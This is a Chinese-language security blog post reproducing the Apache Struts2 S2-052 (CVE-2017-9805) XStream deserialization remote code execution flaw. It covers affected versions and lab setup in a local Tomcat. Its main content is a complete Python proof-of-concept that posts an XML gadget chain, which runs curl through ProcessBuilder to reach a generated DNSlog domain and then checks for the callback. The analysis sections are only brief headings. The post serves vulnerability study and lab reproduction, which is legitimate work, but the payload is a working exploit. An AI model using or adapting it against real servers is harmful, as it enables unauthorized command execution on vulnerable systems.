

Title:Struts2漏洞S2-052 (CVE-2017-9805)复现实践：REST插件远程执行命令漏洞
Date: 2017-09-22 10:20
Category: 漏洞实践
Tags: 漏洞,java,反序列化,struts2,S2-052
Slug: 
Authors: bit4
Summary: 


## 漏洞概述

Struts2 REST 插件使用带有 XStream 程序的 XStream Handler 进行未经任何代码过滤的反序列化操作，这可能在反序列化XML payloads时导致远程代码执行。任意攻击者都可以构造恶意的XML内容提升权限。

给自己补基础： Struts2 是一个基于 MVC 设计模式的Web应用框架，它本质上相当于一个servlet，在 MVC 设计模式中，Struts2 作为控制器(Controller)来建立模型与视图的数据交互。Struts2 是世界上最流行的 Java Web 服务器框架之一。

影响范围：

Apache Struts 2.1.2 - Struts 2.3.34

Apache Struts 2.5 - Struts 2.5.12

### 0x0、环境搭建

<https://github.com/apache/struts/archive/STRUTS_2_5_12.zip>

https://archive.apache.org/dist/struts/2.5/struts-2.5-all.zip

部署方法有2种：

1.是源码部署，需要编译，可以直接使用[VulApps](https://github.com/Medicean/VulApps)中的环境

https://github.com/Medicean/VulApps/tree/master/s/struts2/s2-052

2.是war包部署，windows下也比较方便

使用jspstudy 将struts2-rest-showcase.war 放到tomcat/webapps的目录下，然后启动jspstudy.

http://127.0.0.1:8081/struts2-rest-showcase/orders.xhtml




### 0x1、漏洞的发现思路

漏洞发现者在他的文章中进行了说明：https://lgtm.com/blog/apache_struts_CVE-2017-9805

如何查看调用栈，如何审计或者挖掘这类漏洞


### 0x2、漏洞的关键点

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

import urlparse
import requests
import sys
from DNSlog import DNSlog
'''
漏洞名称：Struts2漏洞S2-052 (CVE-2017-9805)
实验环境：VulApps/s/struts2/s2-052
参考链接：
测试状态：成功

'''
def detect(url,data,header):
    try:
        req = requests.post(url, data=data, verify=False, timeout=3, headers=header)
        #print req.content
        req.close()
    except Exception as e:
        print e

def poc(url):
    post_data=r'''<map>
<entry>
     <jdk.nashorn.internal.objects.NativeString>
       <flags>0</flags>
       <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
         <dataHandler>
           <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
             <is class="javax.crypto.CipherInputStream">
               <cipher class="javax.crypto.NullCipher">
                 <initialized>false</initialized>
                 <opmode>0</opmode>
                 <serviceIterator class="javax.imageio.spi.FilterIterator">
                   <iter class="javax.imageio.spi.FilterIterator">
                     <iter class="java.util.Collections$EmptyIterator"/>
                     <next class="java.lang.ProcessBuilder">
                       <command>
<string>curl</string>
<string>{0}</string>
                       </command>
                       <redirectErrorStream>false</redirectErrorStream>
                     </next>
                   </iter>
                   <filter class="javax.imageio.ImageIO$ContainsFilter">
                     <method>
                       <class>java.lang.ProcessBuilder</class>
                       <name>start</name>
                       <parameter-types/>
                     </method>
                     <name>foo</name>
                   </filter>
                   <next class="string">foo</next>
                 </serviceIterator>
                 <lock/>
               </cipher>
               <input class="java.lang.ProcessBuilder$NullInputStream"/>
               <ibuffer/>
               <done>false</done>
               <ostart>0</ostart>
               <ofinish>0</ofinish>
               <closed>false</closed>
             </is>
             <consumed>false</consumed>
           </dataSource>
           <transferFlavors/>
         </dataHandler>
         <dataLen>0</dataLen>
       </value>
     </jdk.nashorn.internal.objects.NativeString>
     <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
   </entry>
   <entry>
     <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
     <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
   </entry>
 </map>
'''
    header = {'Content-Type': 'application/xml', 'charset': 'UTF-8'}

    x = urlparse.urlparse(url)
    scheme = x.scheme
    hostname = x.hostname
    port = x.port
    netloc = x.netloc  # netloc = hostname:port
    subdomain= "{0}.{1}".format(port,hostname)

    dnslog = DNSlog(subdomain)
    #dnslog.login("username","password")
    payload = dnslog.gen_payload_domain()
    data = post_data.format(payload)

    dnslog.delete(subdomain)
    detect(url,data,header)
    return dnslog.query(subdomain)

if __name__ == "__main__":
    url= "http://127.0.0.1:8081/struts2-rest-showcase/orders/3/edit"
    print poc(sys.argv[1])

```

DNSlog类的实现代码，请参见[这里](https://github.com/bit4woo/code2sec.com/blob/master/DNSlog%E7%9A%84%E6%94%B9%E9%80%A0%E5%92%8C%E8%87%AA%E5%8A%A8%E5%8C%96%E8%B0%83%E7%94%A8.md)


poc构造的关键点

从xml到代码执行


参考：

https://lgtm.com/blog/apache_struts_CVE-2017-9805 漏洞发现过程，漏洞发现者的文章

http://xxlegend.com/2017/09/06/S2-052%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%8F%8A%E5%AE%98%E6%96%B9%E7%BC%93%E8%A7%A3%E6%8E%AA%E6%96%BD%E6%97%A0%E6%95%88%E9%AA%8C%E8%AF%81/  廖新喜的分析，包含实验环境搭建

<https://github.com/mbechler/marshalsec> poc生成工具

http://www.freebuf.com/vuls/147170.html 调用栈分析